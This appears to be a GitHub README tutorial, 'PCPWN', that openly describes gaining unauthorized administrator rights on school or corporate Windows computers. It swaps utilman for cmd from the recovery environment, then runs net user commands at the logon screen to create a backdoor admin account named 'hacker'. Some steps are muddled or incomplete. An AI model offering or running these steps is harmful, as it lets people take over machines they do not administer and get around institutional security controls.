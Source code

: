
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/207/207130.png", width="200", height="200">
</p>

<h1 align="center"> [ PCPWN ]</h1>
<h4 align="center">How can I obtain administrative privileges on a school computer
</h4>

### DESCRIPTION
PCPWN is an informative tutorial that guides you through the process of gaining unauthorized access to administrative privileges on a computer within a school or corporate environment, all without relying on the pre-existing company-created admin account.

### 1. Access Windows RE (Recovery Environment):
  Start by accessing recovery mode on the target system.
    
  #### When the computer is turned off:

        Press and hold the Windows Key and press the power button.
        Release both keys.

 #### From the Windows Logon screen:
        Click the Power Button icon.
        Hold the SHIFT Key and click Restart.

  Select "Repair Your Computer," then navigate to "Troubleshoot," and finally, select "Command Prompt."

### 2. Utilizing Command Prompt:
    In the Command Prompt, type notepad to open the Notepad text editor.
    select file | click save as | select this pc | select all files |

### 3. Changing Utilman to Command Prompt:
    Navigate to drive X (replace X with the appropriate drive).
    Go to System32 and rename cmd to utilman.
    Exit the Command Prompt.

### 4. Adding a User Account:
    Return to the login screen and click on "Ease of Access Icon."
    Type the following command: 
    net user hacker hacker /add 
    net localgroup Administrators hacker /add
   
### 5. Logging In with the New Account with admin priv:
    Log in with your non-administrator account.
    Open PowerShell as an administrator.
    Type username: DOMAIN\hacker password: hacker

### TESTED ON FOLLOWING
* Windows 11
* Windows 10
* Windows 7

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**
   
<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this tutorial, so please only use it for good and educational purposes. </h4>

